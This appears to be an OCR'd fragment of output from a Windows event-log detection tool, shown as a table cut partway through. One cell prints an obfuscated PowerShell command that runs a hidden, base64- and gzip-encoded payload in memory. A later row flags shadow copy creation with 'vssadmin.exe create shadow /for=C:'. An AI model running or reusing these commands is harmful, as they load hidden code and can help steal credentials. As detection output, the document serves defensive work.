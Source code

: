     │                     │    │                                          │                                │                                                    │ tInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w h │
    │                     │    │                                          │                                │                                                    │ idden -c &([scriptblock]::create((New-Object IO.St │
    │                     │    │                                          │                                │                                                    │ reamReader(New-Object IO.Compression.GzipStream((N │
    │                     │    │                                          │                                │                                                    │ ew-Object IO.MemoryStream(,[Convert]::FromBase64St │
    │                     │    │                                          │                                │                                                    │ ring(''H4sIAIuvyFwCA7VW+2/aSBD+OZH6P1gVErZCMA60aSJ │
    │                     │    │                                          │                                │                                                    │ VujVPE5xADITHodNir+0lay/Ya169/u83Btym1/SuPeksHruzM │
    │                     │    │                                          │                                │                                                    │ 7Mz33w7azcJbUF5KM2DxU1J+vTm/KyLIxxIco6MClKOmsrZGQh │
    │                     │    │                                          │                                │                                                    │ z5Er6KMlTtFzWeIBpOLu9rSZRREJxnBebRKA4JsGcURLLivSn9 │
    │                     │    │                                          │                                │                                                    │ OSTiFw+zBfEFtInKfdHscn4HLOT2q6KbZ9Ilyh00rUOt3EaSdF │
    │                     │    │                                          │                                │                                                    │ aMirk/O+/55XppTYr1lcJZrGct3axIEHRYSyvSJ+VdMP+bknkv │
    │                     │    │                                          │                                │                                                    │ EntiMfcFcUnGpavioMwxi65B29rYhLhcyfOK5ADfCIikiiUIJv │
    │                     │    │                                          │                                │                                                    │ U/Lgo52HYjbiNHCcicZwvSNPU8XQ2+02ennZ9TEJBA1I0QkEiv │
    │                     │    │                                          │                                │                                                    │ rRItKY2iYstHDqMPBJ3BlaWiGjozRQF1Nb8mci5MGGsIP2KG/m │
    │                     │    │                                          │                                │                                                    │ ebDLMftZIfmkEWl0RKYW0gn/P0uROwsjRLv9KmFBzBZ5j3QGyz │
    │                     │    │                                          │                                │                                                    │ 2/O35y7GUVWdyP6kiEwOpsexgQCk7s8pge9j1KpIJmwCRY82sE │
    │                     │    │                                          │                                │                                                    │ 0148Sosy+wCrl3Gbhx9ZapgqKfP+0Bd...                 │
    │                     │    │                                          │                                │                                                    │                                                    │
    │                     │    │                                          │                                │                                                    │ (use --full to show all content)                   │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-19 15:11:26 │ 1  │ ‣ Shadow Copies Creation                 │ "MSEDGEWIN10"                  │ C:\Windows\System32\vssadmin.exe                   │ vssadmin.exe create shadow /for=C:                 │
    │                     │    │ Using Operating Systems                  │                                │                                                    │                                                    │